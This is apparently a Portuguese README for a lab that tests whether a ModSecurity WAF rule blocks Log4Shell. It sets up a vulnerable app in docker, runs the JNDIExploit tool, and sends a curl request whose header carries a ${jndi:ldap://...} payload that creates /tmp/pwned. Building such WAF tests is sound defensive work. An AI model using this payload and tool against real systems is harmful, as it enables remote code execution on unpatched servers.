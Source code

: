 ### Testando a regra de ModSec ###

### Pré requisitos ###
- Ter docker instalado
- Ter Java instalado na sua máquina

### Executando o teste ###
- Realizar o git clone do repositorio
- Executar o comando abaixo para subir o WAF (ModSec) e a aplicação vulneravel
```sh 
docker stack deploy -c docker-compose.yml WAF
``` 
- Extrair o JNDIExploit.v1.2.zip que está no repositorio, entrar na pasta e executar o comando abaixo, sendo que o $IP deve se o IP da sua máquina, não recomendo que coloque o 127.0.0.1
```sh 
java -jar ./JNDIExploit-1.2-SNAPSHOT.jar -i $IP -p 8888
``` 
- Para testar o RCE execute o curl abaixo alterando o $IP pelo IP da sua máquina, ele vai criar um arquivo pwned dentro de /tmp da aplicação vulneravel
```sh 
curl 127.0.0.1:80 -H 'X-Api-Version: ${jndi:ldap://$IP:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
``` 


### Pergunta dos universitarios ###

1- Como saber se o meu WAF e aplicação WEB vulneravel subiu ?

Execute ```docker service ls``` , e verifique se tem dois serviços cada um com uma replica.

2- Como pegar log do modsec?

Execute "docker exec -ti $(docker container ls | grep "felipe8398/redirector:latest"| awk '{print $1}') cat /var/log/apache2/error.log"

3- Como verificar se o RCE não deu certo?

O curl que utilizamos cria um arquivo com nome pwned dentro de tmp dessa forma precisamosa executar 
```docker exec -ti $(docker container ls | grep ghcr.io/christophetd/log4shell-vulnerable-app:latest | awk '{print $1}') ls /tmp```
